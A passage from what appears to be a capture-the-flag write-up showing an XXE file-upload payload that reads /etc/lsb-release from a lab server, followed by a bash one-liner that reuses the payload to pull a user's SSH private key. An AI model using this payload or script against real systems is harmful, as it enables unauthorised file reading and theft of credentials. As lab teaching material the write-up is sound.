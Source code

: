     -----------------------------1864243787215350191713873567
    Content-Disposition: form-data; name="file"; filename="0xdf.xml"
    Content-Type: text/xml
    
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
      <!ELEMENT foo ANY>
      <!ENTITY bar SYSTEM
      "file:///etc/lsb-release">
    ]>
    
    <item>
    <Author>
      &bar;
    </Author>
    <Subject>Testing</Subject>
    <Content>This is a test</Content>
    </item>
    -----------------------------1864243787215350191713873567--
    
    
    
    HTTP/1.1 200 OK
    Server: gunicorn/19.7.1
    Date: Mon, 04 Jun 2018 19:42:16 GMT
    Connection: close
    Content-Type: text/html; charset=utf-8
    Content-Length: 268
    
     PROCESSED BLOGPOST:
      Author:
      DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
    
    
     Subject: Testing
     Content: This is a test
     URL for later reference: /uploads/0xdf.xml
     File path: /home/roosa/deploy/src
    

Now we have arbitrary file read on the box, as least as far as this user can
read.

### Bash OneLiner to grab files

When I originally solved this box 4 months ago, I wrote a bash one-liner to
allow me to quickly grab different files.

    
    
    root@kali# file=/etc/lsb-release
    root@kali# new=/home/roosa/.ssh/id_rsa; sed -i -e "s|${file}|${new}|g" upload.xml; file=$(echo -n $new); curl -s -X POST -F "file=@upload.xml;filename=upload.xml" http://10.10.10.91:5000/upload -x 127.0.0.1:8080 | grep -zo "Author:.*Subject" | strings | grep -v -e "Author:" -e "Subject" |  tee loot/$(echo $file | rev | cut -d'/' -f1 | rev)
    